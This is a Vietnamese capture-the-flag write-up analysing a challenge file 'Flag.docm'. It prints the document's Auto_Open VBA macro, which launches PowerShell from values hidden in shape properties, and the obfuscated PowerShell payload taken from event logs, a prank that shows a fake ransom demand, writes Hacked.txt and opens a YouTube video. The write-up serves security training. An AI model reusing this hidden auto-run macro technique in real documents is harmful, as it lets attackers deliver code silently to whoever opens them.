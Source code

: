 ![](https://github.com/HuyThang25/Image/blob/main/Screenshot%202023-05-15%20223359.png)

Đề cho một file 'docm' chứa malware. Sử dụng tool olvba để phân tích:
```
-------------------------------------------------------------------------------
VBA MACRO NewMacros.bas
in file: word/vbaProject.bin - OLE stream: 'VBA/NewMacros'
- - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -
'Flag format: KCSC{H1_1m_sUcky_+$phlac}'
Sub Auto_Open()
On Error Resume Next
Dim objCmdShape As Shape
Dim hiddenkey As Long
Dim cmdParams() As String
Dim cmdCommand As String
Dim cmdType As String
Dim cmdObj As Object
hiddenkey = RGB(13, 3, 7)
If Val(Application.Version) > 14 Then
    For x = 1 To ActiveDocument.Shapes.Count
        Set objCmdShape = ActiveDocument.Shapes(x)
        If objCmdShape.Shadow.ForeColor.RGB = hiddenkey Then
            cmdType = objCmdShape.Name
            cmdCommand = objCmdShape.AlternativeText
            cmdParams = Split(objCmdShape.TextFrame.TextRange.Text, "|")
            Set cmdObj = Interaction.CreateObject(cmdType)
            VBA$.[Interaction].CallByName! cmdObj, [cmdCommand], VbMethod, "PoWerShElL", Trim(cmdParams(0)), cmdParams(1), cmdParams(2)
            objCmdShape.Delete
            Exit For
        End If
    Next
Else
    MsgBox "Microsoft Word is not installed on this computer or its version is lower than Microsoft Word 2013", vbCritical
    Application.Quit
End If
End Sub
Sub AutoOpen()
    Auto_Open
End Sub
Sub Workbook_Open()
    Auto_Open
End Sub

+----------+--------------------+---------------------------------------------+
```
Được phần 1 của flag `Flag format: KCSC{H1_1m_sUcky_+$phlac}`. Khả năng phần 2 là giá trị của biến `$phlac` trong powershell được thi thực thi bằng script ở trên. Cho nên bước tiếp theo ta sẽ phân tích động. Cho chạy file `Flag.docm` (nhớ là tắt hết các phần mềm anti viruss và thực thi trên máy ảo), thì thấy môt mà hình terminal được bật lên và dẫn tới một video trên youtube (Cảnh bảo: đeo tai nghe trước khi chạy file =)) ).
![](https://github.com/HuyThang25/Image/blob/main/Screenshot%202023-05-16%20180624.png)

Mở file trong đường dẫn `"C:\Windows\System32\winevt\Logs\Microsoft-Windows-PowerShell%4Operational.evtx"` để xem lịch sử cmd đã thực thi. Thấy có ps được chạy khi mở file 'Flag.docm'
![](https://github.com/HuyThang25/Image/blob/main/Screenshot%202023-05-16%20181608.png)

```
${p4yL04D}=('Mộ'+'t '+'s'+'ố '+'tà'+'i '+'l'+("{1}{0}" -f 'u ','iệ')+'qua'+'n '+'trọ'+'ng '+'của'+' '+'b'+'ạn '+'đ'+'ã '+'bị'+' '+'m'+'ã '+(("hóa!!`nĐể "+'')+'')+("{0}{1}" -f 'đư','ợc')+' '+'hướ'+'ng '+'d'+'ẫn '+'giả'+'i '+'m'+'ã, '+'bạn'+' '+'cầ'+'n '+("{1}{0}" -f'uy','ch')+'ể'+'n '+'kh'+("{1}{0}"-f'ản ','o')+'1'+("{0}{1}"-f '00','k ')+'và'+'o '+'s'+'ố '+'tài'+' '+("{1}{0}" -f'ả','kho')+'n'+' '+(("sau:`n1010107112000`nChủ "+'')+'')+'tà'+'i '+'kh'+("{1}{0}" -f ':','oản')+' '+'N'+'guy'+'ễn '+'Th'+("{1}{0}" -f' ','anh')+(("Long`nNgân "+'')+'')+'h'+("{0}{1}" -f 'àng',' ')+'M'+'B '+'Ba'+'nk')
&('A'+'d'+("{0}{1}"-f 'd-T','ype')) -AssemblyName ("{1}{6}{0}{3}{5}{4}{2}"-f 't.V',("{0}{1}"-f 'Micr','os'),'ic','is',("{1}{0}" -f 's','lBa'),'ua','of');
seT-ItEM ("V"+"arIab"+"le:hVI96") ( [TypE]("{4}{5}{7}{1}{3}{6}{0}{8}{2}" -F 'c.InTER','b','ION','a','miCrOsOf','t.ViS','sI','uAl','ACT') ) ;
 SEt-itEM ('vA'+'Riab'+'le:'+'O7v'+'8k')  (  [TYPE]("{4}{5}{3}{2}{0}{1}"-F '.MSGBOxSt','yLe','.VIsualbASic','Soft','MiC','rO')  ) ;
( get-vARIABlE ('hvI9'+'6')  -valUEONl )::MsgBox(${p4yL04D},  $O7V8K::Information, ("{1}{4}{8}{11}{9}{0}{2}{3}{6}{10}{7}{5}" -f 'cùng thương','Chú',' ','t','ng tô','in','i',' t','i ',' ','ếc báo',' vô'));
.("{3}{0}{1}{2}" -f("{1}{0}"-f 'tp','-Ou'),'u','t',("{0}{1}"-f'W','rite')) ${p4yL04D} | .("{1}{0}{2}" -f("{0}{1}{2}"-f'u','t-','Fil'),'O','e') -Encoding ("{1}{0}"-f'f8','ut') "C:\Users\$env:UserName\Desktop\Hacked.txt"
${Ws`CripT} = .("{0}{2}{1}"-f'New-O','ct','bje') -com ("{1}{0}{2}"-f'c','ws','ript.shell');
 1..50 | .('%') { ${w`SCri`Pt}."s`endK`EYs"([char]175) };
&("{2}{0}{1}" -f 't','art-Process','S') ("{2}{1}{0}" -f 'lore','p','iex') -ArgumentList ("{1}{6}{2}{0}{5}{3}{7}{4}"-f 'ww.youtube.c','-k ','://w','m/w','pRqs4k','o','https','atch?v=BMEdB')
${phlac}=("{2}{5}{0}{4}{1}{3}" -f 'y',("{2}{1}{0}" -f ("{2}{1}{0}" -f'H',("{0}{1}" -f'_a','h1'),'_m3'),'0t','u_g'),("{0}{2}{1}"-f 'Tr0',("{0}{1}" -f '4',("{0}{1}" -f("{0}{1}"-f'lw','@r'),'3')),("{1}{0}"-f'_m','ll')),'i','0','_');
.("{4}{0}{3}{2}{1}"-f'-Va','e','abl','ri',("{0}{1}" -f'R',("{0}{1}"-f'emo','ve'))) ("{1}{0}" -f 'c',("{0}{1}" -f'phl','a'))
```

Tìm thấy được biến $phlac
```
${phlac}=("{2}{5}{0}{4}{1}{3}" -f 'y',("{2}{1}{0}" -f ("{2}{1}{0}" -f'H',("{0}{1}" -f'_a','h1'),'_m3'),'0t','u_g'),("{0}{2}{1}"-f 'Tr0',("{0}{1}" -f '4',("{0}{1}" -f("{0}{1}"-f'lw','@r'),'3')),("{1}{0}"-f'_m','ll')),'i','0','_');
```
Chạy câu lệnh trên trong terminal và dùng `echo $phlac` để xem giá trị của biến 

![](https://github.com/HuyThang25/Image/blob/main/Screenshot%202023-05-16%20182858.png)

Flag = KCSC{H1_1m_sUcky_Tr0ll_m4lw@r3_y0u_g0t_m3_ah1Hi}


